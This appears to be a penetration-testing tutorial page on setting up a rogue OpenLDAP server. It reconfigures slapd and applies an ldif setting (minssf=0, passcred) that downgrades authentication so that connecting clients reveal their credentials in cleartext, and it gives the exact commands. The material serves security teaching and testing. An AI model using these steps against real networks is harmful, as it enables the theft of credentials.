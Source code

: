**OpenLDAP** can be used to host rogue LDAP server.

Reconfigure LDAP server:

```
sudo dpkg-reconfigure -p low slapd
```

Select \<No> when requested to **Omit OpenLDAP server configuration**. Provide target domain for DNS domain name and Organisational name. Provide any Administrator password. Select **MDB** as LDAP database backend. Choose \<No> to remove database if **slapd** is purged. Choose \<Yes> to move old database files before new one is created.

![](<../.gitbook/assets/5 (1).png>)

Create new **ldif** file to downgrade rogue LDAP server’s supported authentication mechanisms:

<pre><code><strong>vim olcSaslSecProps.ldif
</strong></code></pre>

```
#olcSaslSecProps.ldif
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred
```

**olcSaslSecProps** specifies SASL security properties. **noanonymous** disables mechanisms that support anonymous login. **minssf** specifies minimum acceptable security strength with 0 meaning no protection.&#x20;

Use ldif file to update configuration of rogue LDAP server:

{% code overflow="wrap" %}
```
sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart
```
{% endcode %}

![](<../.gitbook/assets/7 (1).png>)

Verify that rogue LDAP server’s configuration has been applied:

```
ldapsearch -H ldap:// -x -LLL -s base -b “” supportedSASLMechanisms
```

![](<../.gitbook/assets/8 (1).png>)
